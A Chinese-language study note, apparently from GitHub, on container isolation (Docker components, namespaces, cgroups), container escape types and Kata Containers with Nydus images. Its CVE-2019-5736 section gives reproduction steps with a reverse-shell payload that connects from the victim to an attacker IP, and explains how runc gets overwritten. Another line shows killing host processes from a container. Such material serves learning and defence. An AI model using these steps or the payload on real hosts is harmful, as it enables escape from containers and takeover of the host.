 # 容器逃逸与安全容器
## Docker运行流程
Docker由Docker-Client,dockerd,containerd,docker-shim,runc组成。

![](images/docker.png)

- docker-client：docker命令行，负责接收用户命令；
- dockerd: docker守护进程，监听请求并管理网络配置和存储卷资源；
- containerd: dockerd实际调用的还是containerd的api接口（grpc方式实现），containerd是dockerd和runc之间的一个中间交流组件;
- docker-shim: docker-shim是一个真实运行的容器的真实垫片载体，每启动一个容器都会起一个新的docker-shim的一个进程，通过指定容器id、buundle目录、运行时二进制来调用runc的api创建一个容器；
- runc:命令行工具端，他根据oci（开放容器组织）的标准来创建和运行容器；

**流程**：Docker CLI将run命令及参数通过REST API传给dockerd，dockerd根据请求拉取并验证镜像，之后将控制权交给containerd去创建容器，之后containerd设置容器环境（文件系统，网络）。然后，containerd会使用shim进程将容器的运行委托给runc创建并启动容器。容器运行时，containerd将监视容器状态并相应地管理生命周期。

## Namespace和Cgroup
### Namespace
Namespace将内核的全局资源进行封装，使每个Namespace有一份独立资源，不同进程在各自的Namespace内对同一种资源的使用不会相互干扰。Docker 通过Linux namespace实现6项资源隔离，包括主机名、用户权限、文件系统、网络、进程号、进程间通讯。
| Namespace 类型 | 隔离的资源                                  | 作用描述                                                                 |
|---------------|--------------------------------------------|--------------------------------------------------------------------------|
| **IPC**       | System V IPC 和 POSIX 消息队列              | 隔离进程间通信机制（如信号量、共享内存、消息队列），防止跨容器干扰。               |
| **Network**   | 网络设备、协议栈、端口、路由表等             | 每个容器拥有独立的网络接口、IP 地址、防火墙规则等，实现网络隔离。                 |
| **Mount**     | 文件系统挂载点                              | 隔离文件系统挂载信息，使容器无法访问宿主机或其他容器的挂载点（如 `/proc`、`/sys`）。 |
| **PID**       | 进程 ID (PID)                              | 容器内只能看到自己的进程树，无法查看或操作宿主机或其他容器的进程。                  |
| **UTS**       | 主机名 (Hostname) 和域名 (NIS Domain Name) | 允许容器独立设置主机名，不影响宿主机或其他容器。                                |
| **User**      | 用户 ID (UID) 和组 ID (GID)                | 隔离用户权限，容器内 root 用户可被映射到宿主机非 root 用户（增强安全性）。  

部分启动参数授予容器权限较大的权限，从而打破了资源隔离的界限。

| 启动参数              | 影响的 Namespace       | 授予的权限或行为                          |
|-----------------------|------------------------|-------------------------------------------|
| `--cap-add=SYS_ADMIN` | 无直接绕过             | 允许容器执行 `mount` 等特权操作，可能导致文件系统挂载逃逸 |
| `--net=host`          | Network Namespace      | 容器直接使用宿主机的网络栈（共享网络接口、端口等）     |
| `--pid=host`          | PID Namespace          | 容器可看到宿主机上的所有进程                       |
| `--ipc=host`          | IPC Namespace          | 容器与宿主机共享进程间通信资源（如信号量、共享内存等）  |

示例：使用`docker run –it –pid=host --cap-add=CAP_KILL ubuntu /bin/bash`可以实现在容器中杀死宿主机的进程。

### Cgroup
Cgroup是内核提供的一种资源隔离的机制，可以实现对进程所使用的cpu、内存物理资源、及网络带宽等进行限制。还可以通过分配的CPU时间片数量及磁盘IO宽带大小控制任务运行的优先级。系统中的进程（任务）创建子进程（任务）时，该子任务自动成为其父进程所在cgroup的成员。在docker中，cgroup用来确保一个容器只能使用被分配的资源量，避免某个容器因为过度消耗资源而影响到其他容器或主机系统的稳定性。

![](images/cgroup.png)

图中task1分配到cgroup_2的内存资源，cgropu_3的cpu资源，其子进程task2和task3也最多只能使用cgroup_2的内存资源和cgropu_3的cpu资源。

在Docker中，默认情况下，没有对CPU和内存资源进行硬性限制，若要进行硬性限制，则在启动容器时需要，例如：
```
docker run -it --rm --memory=“512m” \
 --memory-swap=“1g” \
 --cpus=“1.5“ \ 
mycontainer
```

## 容器逃逸类型
容器逃逸指的是攻击者利用容器中的漏洞或配置错误，突破容器的隔离机制，从而访问宿主机或其他容器内的资源。
- （系统层）内核漏洞：指由于内核漏洞导致的容器逃逸问题，例如：如果宿主机的Linux内核存在安全漏洞，攻击者可能利用这些漏洞从容器内部执行恶意代码，从而获取宿主机上的权限；
- （服务层）软件设计不当：指由于运行时漏洞导致的容器逃逸问题，Docker是一个容器化平台，它包含了docker软件本身以及runc和containerd等核心组件，这些组件本身也可能存在漏洞，攻击者可以利用这些漏洞来进行容器逃逸。
- （用户层）特权模式与配置不当：指由于容器实例使用的危险配置、危险挂载导致的容器逃逸，例如：容器使用了不安全的卷挂载，或者容器以过高的权限运行，都可能被攻击者利用来实现容器逃逸；

### 服务层容器逃逸案例（CVE-2019-5736）
2019年2月11日，runC的维护团队报告了一个新发现的漏洞，SUSE Linux GmbH高级软件工程师Aleksa Sarai公布了影响Docker, containerd, Podman, CRI-O等默认运行时容器runc的严重漏洞CVE-2019-5736。漏洞会对IT运行环境带来威胁，漏洞利用会触发容器逃逸、影响整个容器主机的安全，最终导致运行在该主机上的其他容器被入侵。漏洞影响AWS, Google Cloud等主流云平台。
- 影响版本：docker version <= 18.09.2, runc <= 1.0-rc6
- 漏洞链接：https://github.com/Frichetten/CVE-2019-5736-PoC
- 复现方式：将Poc代码中main.go 文件中payload变量定义为`var payload="#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1"`(其中<ip>指攻击者机器的ip)，之后在受害者机器上编译执行main.go，然后在攻击者机器上开启nc监听，监听<port>端口，再次在受害者机器上进入或启动容器时，攻击者机器就可以拿到受害者机器的shell控制权；
- 漏洞原理：攻击者可以通过修改容器内部某个可执行文件的方式，获取到宿主机上 runc 可执行文件的文件句柄（file descriptor）。随后，攻击者可以利用该句柄对原始的 runc 文件进行覆盖操作，将其替换为一个受控的恶意文件；

POC代码解析：

1. `/bin/sh` -> `#!/proc/self/exe` 

    将shell变成指向当前进程可执行文件的链接，让host的runc进程执行自身

2. runc -> `#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1`

    将runc覆盖为反弹shell

3. 下次执行docker run/exec 时，就会使用runc二进制文件，执行攻击者的payload

## Kata Containers
Kata Containers项目最初由Hyper.sh的runV项目与Intel的Clear Container合并而来，并于2017年开源。它的核心思想是，为每一个容器运行一个独立虚拟机，从而避免其与宿主机共享内核。即使攻击者在容器内部成功利用了内核漏洞攻破内核，他依然被限制在虚拟机内部，无法逃逸到宿主机上。
![](images/kata.png)
和Docker一样，Kata Container1.0也包含containerd、containerd-shim，还额外包含的组件如下：
- kata-shim：kata容器的容器进程运行在虚拟机中，虚拟机和host之间是隔离的，container-shim无法监控到kata容器进程的生命状态，所以使用kata-shim进行中转；
- kata-runtime：负责调用底层虚拟化技术（如qemu）来启动虚拟机；
- kata-proxy：转发来自kata runtime的请求到VM的kata-agent；
- kata-agent：负责实际的容器生命周期管理和资源配置（创建新容器，调整资源配置）;

### Nydus镜像加速系统

传统的Docker镜像在分发和使用过程中会存在以下问题：
- 启动速度慢：由于需要下载并解压整个镜像层才能启动容器，导致容器启动时间长；
- 存储效率低下：某个文件在Upper层里被删除或修改，文件依然留在Lower层，它们仍然占用存储空间；
- 镜像与镜像之间存在重复数据：不同镜像文件不共享；

针对以上问题，Kata Containers 3.0提出了Nydus镜像加速系统，其核心思想为按需加载和共享重复块：
- 按需加载：采用"运行时按需获取"架构，容器启动时仅下载元数据（约30KB的bootstrap文件），当容器访问特定文件时，才从仓库下载对应的数据块（chunk）；
- 共享数据块：最小单位为数据块（chunk），可跨镜像共享基础层数据块。例如，若上传了一个Ubuntu镜像到远端仓库，之后想基于Ubuntu构建一个Python镜像和一个Nginx镜像，可以通过--base-bootstrap=bootstrap_xxx.json来引用远程Ubuntu镜像中的数据块chunks，之后进行新镜像的构建，在上传镜像时只上传新增的Chunks。

# 参考链接
https://www.docker.com/blog/containerd-vs-docker/
https://www.cnblogs.com/xiaozi/p/13423853.html
https://www.thebyte.com.cn/container/CRI-in-Kubernetes.html
https://www.lixueduan.com/posts/docker/03-container-core/
https://juejin.cn/post/7096115284875935781
https://www.infoq.cn/article/dgbkj0dwftxeusp64dk9
https://www.ctyun.cn/developer/article/531766025101381

